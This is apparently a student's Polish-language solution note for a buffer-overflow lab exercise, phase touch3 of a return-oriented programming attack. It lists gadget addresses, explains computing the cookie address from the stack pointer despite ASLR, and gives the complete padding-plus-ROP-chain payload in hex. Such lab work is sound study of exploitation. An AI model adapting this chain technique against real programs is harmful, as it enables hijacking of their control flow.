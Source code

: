 Dostępne gadgety:
rax <- 1 (eax <- 1)
rax <- rdi + rsi 	 (27 1d 40 00 00 00 00 00)
rax <- rsp (eax <- esp) (42 1d 40 00 00 00 00 00)
popq %rax 		 (08 1d 40 00 00 00 00 00)
rdi <- rax (edi <- eax) (16 1d 40 00 00 00 00 00)
ecx <- eax 	 	 (d6 1d 40 00 00 00 00 00)
edx <- ecx              (2f 1d 40 00 00 00 00 00)	 
esi <- edx              (70 1d 40 00 00 00 00 00)

Jaki jest problem?
Chcemy umieścić adres cookie który jest nad ramką stosu w %rdi
Ale ten adres się zmienia więc nie da się zrobić (przez ASLR) - 0x5560a468 + 0x20 = 0x5560A488
gdzie 0x5560a468 to był adres %rsp

Ale możemy zrobić obliczenie (%rsp + odległość do cookie) przy pomocy tego lea (rdi + rsi)

rax <- rsp (zapisujemy adres, który był adresem powrotu z getbuf w rdi)
rdi <- rax
popq %rax (do rax zapisujemy odległość) 
odległość (z gdb: x/xg $rsp+0x48 to cookie, przy rax <- rsp)
ecx <- eax (teraz chcemy do rdi dodać tę odległość)
edx <- ecx
esi <- edx (teraz esi == eax)
rax <- rdi + rsi (to jest (%rsp + odleglosc))
rdi <- rax
touch3
cookie

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 24 bajty paddingu */
42 1d 40 00 00 00 00 00 /* rax <- rsp */
16 1d 40 00 00 00 00 00
08 1d 40 00 00 00 00 00
48 00 00 00 00 00 00 00
d6 1d 40 00 00 00 00 00
2f 1d 40 00 00 00 00 00 /* edx <- ecx */
70 1d 40 00 00 00 00 00
27 1d 40 00 00 00 00 00
16 1d 40 00 00 00 00 00
5a 1c 40 00 00 00 00 00
36 34 64 34 63 33 37 32

>>> x/xg $rsp
0x7ffffffcb7c8:	0x0000000000401d77




